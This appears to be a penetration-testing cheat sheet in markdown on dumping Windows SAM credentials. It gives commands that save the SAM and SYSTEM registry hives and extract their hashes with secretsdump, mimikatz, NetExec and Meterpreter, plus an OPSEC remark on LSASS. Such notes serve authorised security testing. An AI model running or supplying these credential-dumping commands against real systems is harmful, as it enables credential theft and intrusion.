 Security Account Manager is a database file that stores Windows user account credentials.

[DCC2 + LSA Secrets](DCC2%20+%20LSA%20Secrets.md)
Hash format: LM & NTLM/RC4 HMAC (hashcat: 1000)

Registries:
`HKLM\SAM`
`HKLM\SYSTEM`
### Registry Dumping
Saving SAM registry hives
```bash
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
```
(Secretsdump) Offline SAM dumping
```bash
secretsdump.py -sam sam.save -system system.save LOCAL
```
(Mimikatz) Offline SAM dumping
```bash
mimikatz.exe lsadump::sam /system:system.save /sam:sam.save
```
(NXC) Remote SAM dumping
```bash
nxc smb <TARGET> -u <USER> -p <PASS> --sam
```
(Meterpreter) Dumping credentials
```bash
hashdump
```
### In-Memory Techniques
- Not OPSEC friendly because LSASS process is used, which is traceable.

(Mimikatz) Dumping LSASS memory SAM database
[LSASS.exe](LSASS.exe.md)
